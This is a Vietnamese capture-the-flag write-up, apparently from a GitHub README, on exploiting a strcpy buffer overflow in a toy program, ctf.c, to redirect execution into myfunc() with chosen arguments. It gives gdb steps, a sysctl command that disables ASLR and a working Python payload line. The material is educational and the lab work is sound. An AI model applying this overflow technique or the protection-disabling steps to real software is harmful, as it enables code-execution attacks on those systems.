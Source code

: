 ### Chi tiết Buffer-overflow trên file ctf.c  
***
#### Mục đích của bài này là dùng buffer-overflow để gọi hàm myfunc() và phải in ra được "You got the flag" ra màn hình  
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm strcpy(buf,s). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến buf xuống phần return address của hàm vuln() và cái phần được tràn vào return adddres là địa chỉ của hàm myfunc() thì lúc đó hàm myfunc() sẽ được gọi. Nhưng điểm khó là hàm myfunc có 2 tham số p và q, phải tìm được 2 tham số này và đè giá trị 0x04081211 vào p và đè 0x44644262 vào q thì nó mới in được câu lệnh "You got the flag"


![image](https://github.com/user-attachments/assets/d187e16b-b509-4bdb-a080-83e3ba9e2d44)


***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Lấy địa chỉ hàm myfunc()

  Vào gdb:
  ```
  qdb -q ctf.out  
  ```
  Xem địa chỉ hàm
  ```
  disas myfunc 
  ```
  ![image](https://github.com/user-attachments/assets/360c62d0-4fdf-451b-8cf0-f072d1577ca4)


  => Địa chỉ hàm myfunc() là 0x0804851b. Ngoài ra ta cũng xem được biến p nằm ở vị trí ebp + 8 và biến q nằm ở vị trí ebp + 0xc. Vậy chỉ cần xác định được ebp có địa chỉ bao nhiêu là tìm được p, q. 
* Bước 3: Điểm qua stackframe trước khi hàm vuln() trước khi hàm myfunc() được gọi

  
  ![image](https://github.com/user-attachments/assets/a669a9ae-5c2b-4d0e-a786-03ab10db0af8)



  ta thấy mảng buf chứa tối đa 100 bytes và ebp là 4 byte nên ta cần truyền vào input 104 kí tự ngẫu nhiên và truyền thêm 4 bytes giá trị 0x0804851b nữa để đè lên return addr của hàm vuln().
* Bước 3: Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên
  ```
  sudo sysctl -w kernel.randomize_va_space=0
  ```
  ![image](https://github.com/user-attachments/assets/f8065705-b6a6-4656-b3fb-a2c08feb3fe5)

* Bước 4: Stackframe khi hàm vuln() kết thúc và hàm myfunc() được gọi khi đã buffer-overflow


  ![image](https://github.com/user-attachments/assets/1c8e09d2-bf59-411e-82f7-c35f4d83ff01)


  Lúc này ta đã xác định được vị trí ebp, vậy đã tìm được vị trí p, q, lúc này chỉ cần đè giá trị 0x04081211 vào p và đè giá trị 0x44644262 vào q. Cùng với đó ta phải thêm 4 bytes ngẫu nhiên để đi qua chỗ return addr mới xuống được p.
* Bước 5: Thực hiện truyền input
  ```
  ./ctf.out $(python -c "print('a' * 104 + '\x1b\x85\x04\x08' + 'a'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")
  ```
  Kết quả:

  ![image](https://github.com/user-attachments/assets/bc167269-1821-4af4-9fed-d6fe675cdec4)


  => Thành công   
